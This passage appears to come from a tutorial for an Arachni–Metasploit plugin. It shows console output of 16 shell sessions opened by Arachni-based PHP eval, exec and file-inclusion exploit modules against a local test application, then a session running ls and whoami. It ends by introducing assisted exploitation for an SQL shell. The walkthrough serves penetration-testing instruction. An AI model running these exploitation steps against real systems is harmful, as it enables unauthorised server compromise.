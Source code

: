     [*] Enter sessions -i [ID] to interact with a given session ID
    [*]
    [*] ================================================================================

    Active sessions
    ===============

      Id  Type   Information  Connection                          Via
      --  ----   -----------  ----------                          ---
      1   shell               127.0.0.1:54598 -> 127.0.0.1:5019   exploit/unix/webapp/arachni_php_eval
      2   shell               127.0.0.1:55336 -> 127.0.0.1:8541   exploit/unix/webapp/arachni_exec
      3   shell               127.0.0.1:37880 -> 127.0.0.1:12465  exploit/unix/webapp/arachni_exec
      4   shell               127.0.0.1:49451 -> 127.0.0.1:10866  exploit/unix/webapp/arachni_php_include
      5   shell               127.0.0.1:40276 -> 127.0.0.1:11915  exploit/unix/webapp/arachni_php_eval
      6   shell               127.0.0.1:34400 -> 127.0.0.1:5222   exploit/unix/webapp/arachni_exec
      7   shell               127.0.0.1:58456 -> 127.0.0.1:10955  exploit/unix/webapp/arachni_php_include
      8   shell               127.0.0.1:47028 -> 127.0.0.1:12432  exploit/unix/webapp/arachni_exec
      9   shell               127.0.0.1:48549 -> 127.0.0.1:5929   exploit/unix/webapp/arachni_exec
      10  shell               127.0.0.1:38239 -> 127.0.0.1:11919  exploit/unix/webapp/arachni_exec
      11  shell               127.0.0.1:58541 -> 127.0.0.1:14343  exploit/unix/webapp/arachni_php_include
      12  shell               127.0.0.1:48655 -> 127.0.0.1:13743  exploit/unix/webapp/arachni_php_include
      13  shell               127.0.0.1:59996 -> 127.0.0.1:8895   exploit/unix/webapp/arachni_php_include
      14  shell               127.0.0.1:53717 -> 127.0.0.1:10767  exploit/unix/webapp/arachni_php_include
      15  shell               127.0.0.1:51623 -> 127.0.0.1:7668   exploit/unix/webapp/arachni_php_eval
      16  shell               127.0.0.1:47874 -> 127.0.0.1:8965   exploit/unix/webapp/arachni_php_include

    [*] ================================================================================
    msf > sessions -i 1
    [*] Starting interaction with 1...

    ls
    eval.php
    os_command.php
    rfi.php
    sqli.php
    xss.php

    whoami
    www-data
    ^C
    Abort session 1? [y/N]  y

    [*] Command shell session 1 closed.  Reason: User exit
    msf >

Notice that we ended up with 16 sessions out of the 19 reported vulnerabilities. <br/>
This is due to the fact that the "unix/webapp/arachni_sqlmap" exploit can't be launched automatically and because some of the reported vulnerabilities are basically the same.

Next we'll see how to use the "arachni_manual" command for assisted exploitation and get an SQL shell.

### Assisted exploitation (arachni_manual)
    msf > arachni_list_vulns    # Let's take a look at the available vulnerabilities once again.
